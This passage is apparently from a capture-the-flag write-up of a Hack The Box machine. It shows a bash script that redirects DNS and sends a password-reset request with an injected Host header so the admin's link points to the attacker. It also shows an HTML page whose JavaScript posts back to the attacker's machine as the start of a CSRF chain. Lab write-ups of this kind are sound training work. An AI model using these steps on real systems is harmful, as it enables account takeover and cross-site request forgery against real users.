 #### Trigger Script

I still have the admin coming to visit a page that I’m hosting.

I’m going to build up a script to do the CSRF, but it took me a lot of tries
to get it right. Killing and restarting `fakedns.py`, making sure to always
forward the zone with `unbound-control` in case it had timed out, and
refreshing Firefox got tedious, so I wrote a simple script to trigger the
request from the admin:

    
    
    #!/bin/bash    
        
    domain="gymxcrossfit.htb"    
    ip="10.10.14.13"    
    sleep=60      
        
    echo "[*] Starting DNS server"    
    /opt/FakeDns/fakedns.py -c ./fakedns.conf &    
    FAKEDNS=$!    
    echo "[*] Forwarding zone"    
    sudo unbound-control -s 10.10.10.232 forward_add +i $domain ${ip}@53    
    echo "[*] Triggering password reset"    
    curl -s -X POST -H "Host: ${domain}/employees.crossfit.htb"  -H 'Content-Type: application/x-www-form-urlencoded' -H 'Referer: http://employees.crossfit.htb/password-reset.php' --data-binary 'email=david.palmer%40crossfit.htb' http://employees.crossfit.htb/password-reset.php | grep 'class="alert' | cut -d'>' -f2 | cut -d'<' -f1
    echo -n "[*] Sleeping $sleep seconds waiting for link click starting at: "    
    date    
    sleep $sleep    
    kill $FAKEDNS
    

It starts `fakedns.py` in the background, and records the pid. Then it
forwards the zone, then triggers the reset email with `curl`. It sleeps 60
seconds, and then kills `fakedns.py`. My webserver and any other connections I
want to catch can be managed in other tmux panes.

#### JavaScript Connect Back

Now that the admin is requesting a page from my IP, I can serve a page
containing JavaScript that will make requests. This will end up being a
complex set of `XMLHttpRequest` objects, just like in the original
[CrossFit](/2021/03/20/htb-crossfit.html#csrf-account-request) machine. I like
to build in smaller pieces, so I’ll start with simple JavaScript to make a
POST back to me.

I’ll start with a page with script designed to just POST back to my VM:

    
    
    <html>
      <head>
        <title>pwned</title>
      </head>
      <body>
        <script>
          var req = new XMLHttpRequest();
          req.open("POST", "http://0xdf-employees.crossfit.htb/test", false);
          req.send("0xdf was here");
        </script>
      </body>
    </html>  
    
